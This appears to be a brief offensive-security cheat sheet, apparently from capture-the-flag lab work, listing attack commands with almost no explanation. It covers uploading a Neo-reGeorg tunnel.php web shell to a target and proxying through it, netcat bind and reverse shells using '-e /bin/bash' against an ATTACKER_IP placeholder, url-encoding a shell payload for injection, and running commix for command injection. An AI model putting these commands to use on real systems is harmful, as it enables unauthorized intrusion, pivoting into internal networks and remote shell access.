 cat /tmp/http.bs64 | base64 -d | tar xvfz -

# HTTP Tunnel #

python3 neoreg.py generate -k thm

upload tunnel.php 

python3 neoreg.py -k thm -u http://10.10.127.144/uploader/files/tunnel.php

curl --socks5 127.0.0.1:1080 http://172.20.0.121:80

# NetCat #

ncat -lvnp PORT_NUM

ncat TARGET_IP PORT_NUM

ncat -ulvnp PORT_NUM

nc -u TARGET_IP PORT_NUM

nc ATTACKER_IP 80

ncat -lvnp 1234 -e /bin/bash ---> base64 input.txt to encode

urlencode ncat -lvnp 1234 -e /bin/bash

ncat -lvnp 443 -c "ncat TARGET_SERVER 25"

ncat -lvnp PORT_NUMBER -e /bin/bash

ncat -lvnp Attacker_IP PORT_NUM -e /bin/bash

# Commix #

commix --url="http://10.10.10.10/OS.php" --cookie="cookie" --data="data"















 

